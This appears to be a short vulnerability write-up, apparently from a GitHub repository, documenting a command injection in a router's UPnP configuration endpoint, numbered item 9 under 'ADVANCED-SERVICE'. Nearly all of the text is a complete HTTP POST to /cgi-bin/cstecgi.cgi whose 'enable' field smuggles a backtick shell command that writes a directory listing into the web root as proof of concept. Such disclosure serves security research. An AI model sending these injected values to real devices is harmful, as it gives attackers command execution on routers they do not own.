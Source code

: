 
# ADVANCED-SERVICE

## 9. `/advance/upnp.html` ✔️

![image-20241029121011279](./X6000R/images/image-20241029121011279.png)

```
POST /cgi-bin/cstecgi.cgi?token=F144B7DB500E569C HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 60
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/upnp.html?token=F144B7DB500E569C
Priority: u=1

{"enable":"`ls >/web/poc_upnp.txt`","topicurl":"setUPnPCfg"}
```
